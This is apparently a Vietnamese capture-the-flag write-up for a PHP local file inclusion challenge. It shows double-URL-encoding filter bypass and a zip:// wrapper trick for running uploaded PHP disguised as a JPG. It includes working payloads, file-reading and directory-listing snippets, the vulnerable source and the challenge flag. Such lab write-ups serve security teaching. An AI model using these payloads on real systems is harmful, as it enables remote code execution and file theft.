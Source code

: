 # Local File Inclusion - Wrappers

**40 Points** 

**Title**

Abbreviated LFI

**Statement**

Retrieve the flag.

## Analysis:

Website thực hiện upload và hiển thị ảnh:


<p align="center"><img src="images/upload.png"></p>

Đây là một bài LFI nên ta thử fuzzy các tham số URL. Test với biến `page`, input `..`, ta thấy bị filter (thông báo "Attack Detected"). Thử url-encode thì cũng bị lọc. Thử tiếp với double-encoding thì OK. Input: `%252e%252e`

![image](images/double-encode.png)


Cảnh báo lỗi vì không tìm thấy file `%2e%2e.php`. Trước mắt, chúng ta biết được trang web dùng file `upload.php` (lúc mới vào trang thì `page=upload`), nên thử xem nội dung file này. Sử dụng PHP Wrappers Filter, payload `php://convert.base64-encode/resource=upload` và chuyển sang double-encoding:

```
php:%252f%252fconvert%252ebase64-encode%252fresource=upload
```

Tiếp tục bị filter, sau một hồi phân tích ta có bộ lọc sau:

Filter:  `..` `%2f` `php`

Sau một hồi tìm kiếm giải pháp, ta biết được trong ngữ cảnh upload file như thế này có một loại Wrapper được sử dụng là `zip://` ([Compression Wrappers](https://www.php.net/manual/en/wrappers.compression.php)). Wrapper này sẽ unzip file và mở luồng (stream) để đọc/ghi file. Đồng thời, hãy nhớ rằng giá trị của `page` sẽ được nối chuỗi với `.php`, vì vậy ta chỉ có thể tạo code PHP. Như vậy, với tính năng này ta có thể tạo một mã code PHP và nén lại dưới định dạng ZIP và đổi đuôi thành .JPG (vì site chỉ cho mình upload định dạng JPG). Việc này không ảnh hưởng đến quá trình unzip, vì dù đổi đuôi file nhưng [signature](https://en.wikipedia.org/wiki/List_of_file_signatures) của file trong header vẫn là một định dạng ZIP hợp lệ.

Cách sử dụng:

```
zip://archive.zip#dir/file.txt
```
Với `archive.zip` là file cần được giải nén. Sau dấu `#` là đường dẫn đến file cụ thể cần được lấy ra 

## Solution:

Với việc sử dụng Wrapper, ta phải cần biết đường dẫn của file. Trang web sẽ output hình ảnh cho ta thấy nên ta có thể lấy thông tin này trong source code (Ctrl + U). Ví dụ, khi upload một file bất kỳ thành công:

<p align="center"><img src="images/path.png"></p>

Code PHP:

```php
<?php
    echo "khangtictoc";
?>
```

Lưu vào file `solve.php` -> (Nén thành file ZIP) -> `solve.zip` -> (Đổi đuôi) -> `solve.jpg`

Upload lên server:

<p align="center"><img src="images/upload_code.png"></p>

Hình ảnh sẽ không hiện ra. Of course :)), file upload lên là file zip (nhưng mà đuôi là .png). Vậy mình sẽ lấy đường dẫn file trên và đọc file ra trong source code là `tmp/upload/tp26d9uqM.jpg`. 

> NOTE: Lưu ý loại wrapper này cho phép unzip file ra và thực thi(render) đoạn code 

Payload: (Convert `#` thành `%23` nếu không thì URL sẽ bị hiểu nhầm đi tới internal link `#solve` của page)

```
zip://tmp/upload/tp26d9uqM.jpg%23solve
```

<p align="center"><img src="images/long_path.png"></p>

Nhưng mà path name lại bị quá dài :<< . Cố để path name ngắn nhất có thể thử, rename `solve.php` thành `a.php` rồi thực hiện các bước tương tự như trên. Payload trong trường hợp của mình:

```
zip://tmp/upload/r6LpKOMlo.jpg%23a
```

<p align="center"><img src="images/result1.png"></p>

Vậy là mình đã thực thi được code PHP. Giờ thì dùng sự sáng tạo để lấy flag thôi :> . Thử đọc file `index.php` (file source của challenge trang hiện tại) và thực hiện tương tự:

```php
<?php
    echo file_get_contents("index.php");
?>
```

Ta lấy được full source code nhưng không có flag hay thông tin liên quan:

```php
<?php
@$p = $_REQUEST['page'];
$t=preg_match("/index/i",$p);
if($p != "" && $t == 0)
{
$haq = "<br /><br /><strong>Attack detected</strong>";

if(strstr($p,"..") !== FALSE)
die("<pre>$haq</pre>");

if(stristr($p,"http") !== FALSE)
die("<pre>$haq</pre>");

if(stristr($p,"ftp") !== FALSE)
die("<pre>$haq</pre>");

if(stristr($p,"php") !== FALSE)
die("<pre>$haq</pre>");

if(strlen($p) > 33)
die("<pre>page name too long</pre>");

if(isset($p))
$inc = sprintf("%s.php",$p);


if(isset($inc))
	include($inc);
}
?>
```

Ta thử liệt kê các file trong đường dẫn hiện tại xem có file flag hay không (chỉ đoán thôi, chứ liệt kê hết cả hệ thống thì lâu lắm). Dùng [scandir](https://www.php.net/manual/en/function.scandir.php)

```php
<?php
print_r(scandir("."));
?>
```
> NOTE: scandir trả về một mảng (associative_array)

<p align="center"><img src="images/result2.png"></p>

Ta thấy có file `flag-mipkBswUppqwXlq9ZydO.php`, đọc file này ra:

```php
<?php
    echo file_get_contents("flag-mipkBswUppqwXlq9ZydO.php");
?>
```

Nội dung trong file render ra không có gì hết. Vô source code kiểm tra :

<p align="center"><img src="images/flag.png"></p>

Flag: **lf1-Wr4pp3r_Ph4R_pwn3d**
